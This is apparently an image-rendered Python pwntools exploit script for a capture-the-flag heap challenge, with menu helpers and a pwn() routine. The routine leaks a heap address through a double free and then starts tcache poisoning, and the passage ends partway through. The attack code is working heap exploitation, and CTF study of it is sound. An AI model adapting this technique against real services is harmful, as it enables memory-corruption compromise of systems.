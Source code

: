 ```python

og = [0x4342,0x3342]

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

if(local==1):
    if(arm==1):
        if(core==64):
            p = process(["qemu-arm", "-g", "1212", "-L", "/usr/arm-linux-gnueabi",binary])
        if(core==32):
            p = process(["qemu-aarch64", "-g", "1212", "-L", "/usr/aarch64-linux-gnu/", binary])
    else:
        p = process(binary)
else:
    p = remote(ip,port)

elf = ELF(binary)
libc = ELF(libcelf)

def choice(cho):
    sla('Your choice: ',cho)

def add(size):
    choice(1)
    sla('Index: ','0')
    sla('Size: ',size)

def delete():
    choice(4)
    sla('Index: ','0')

def show():
    choice(3)
    sla('Index: ','0')

def edit(content):
    choice(2)
    sla('Index: ','0')
    sla('Content: ',content) 

def pwn():
    add(0x30)
    delete()
    edit("a"*0x10)
    delete()
    show()
    heap = u64(ru("\n").ljust(8, b"\x00"))
    heap_base = heap-0x1920
    print("heap base: ", hex(heap_base))

    head = heap_base+0x10
    add(0x30)
    edit(p64(head))
    add(0x30)
```
